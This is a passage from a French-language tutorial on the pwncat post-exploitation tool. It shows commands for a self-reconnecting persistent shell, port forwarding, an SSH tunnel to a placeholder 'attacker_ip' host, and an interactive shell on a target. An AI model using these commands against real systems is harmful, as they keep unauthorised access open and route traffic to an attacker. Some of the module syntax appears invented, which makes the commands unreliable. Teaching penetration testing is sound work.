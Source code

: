 ***

#### 4. Lancer Pwncat pour une Session Persistante

Si vous souhaitez maintenir une session persistante après l’obtention d’un shell, utilisez l’option `--persist`.

**Commande :**

```bash
pwncat --persist
```

* **Explication** :
  * `--persist` : Configure un shell persistant qui se reconnecte automatiquement si la session est interrompue.

### 🔍 Étape 3 : Fonctionnalités Principales

***

#### 1. Gestion de Réseau et de Tunnels

**a) Mettre en place un Port Forwarding**

*   **Commande** :

    ```bash
    run network.port_forward local_port=8080 remote_host=192.168.1.5 remote_port=80
    ```
* **Explication** :
  * Permet de rediriger le trafic du port local `8080` vers le port `80` de la machine distante `192.168.1.5`.

**b) Créer un Tunnel SSH**

*   **Commande** :

    ```bash
    run network.ssh_tunnel remote_host=attacker_ip remote_port=22 local_port=8080
    ```
* **Explication** :
  * Configure un tunnel SSH sécurisé entre la machine locale et l'hôte distant via le port `22`.

***

#### 2. Modules de Shell et de Commandes

**a) Lancer un Shell Interactif**

*   **Commande** :

    ```bash
    run shell.interactive
    ```
* **Explication** :
  * Ouvre un shell interactif sur la machine cible, permettant d’exécuter des commandes directement.
